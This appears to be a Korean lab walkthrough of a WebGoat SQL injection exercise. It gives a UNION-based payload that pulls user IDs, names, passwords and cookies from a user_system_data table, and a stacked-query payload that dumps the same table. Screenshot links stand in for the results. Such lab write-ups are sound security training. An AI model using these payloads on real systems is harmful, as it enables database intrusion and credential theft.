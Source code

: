 <h3>테이블에 Dave가 없어서 결과가 나오지 않음</h3>

![image](https://github.com/Bottomdeal/WebGoat/assets/120577570/df3778ee-df03-4457-8d5c-924233342af0)<hr>
위의 테이블 형식과는 달리 7개의 attribute로 이루어진 테이블인걸 확인<br>
![image](https://github.com/Bottomdeal/WebGoat/assets/120577570/f19a0a48-7b5e-4bd6-8563-9a1ae9651590)<hr>
Union을 이용해서 위의 테이블과 밑의 테이블을 강제로 합침<br>
Smith' union select userid, user_name, password, cookie, null, null, null  from user_system_data where 1=1 --를 입력<br>
![image](https://github.com/Bottomdeal/WebGoat/assets/120577570/768f7aed-f60d-43f2-9405-41126937cb84)<hr>
Dave의 패스워드를 입력<br>
![image](https://github.com/Bottomdeal/WebGoat/assets/120577570/03ad857e-7714-4fc3-9f51-5070b90f6061)<hr>

'; select *  from user_system_data --  를 입력<br>
![image](https://github.com/Bottomdeal/WebGoat/assets/120577570/6d4f045b-2e95-46ef-a41f-43749b3c9eb9)




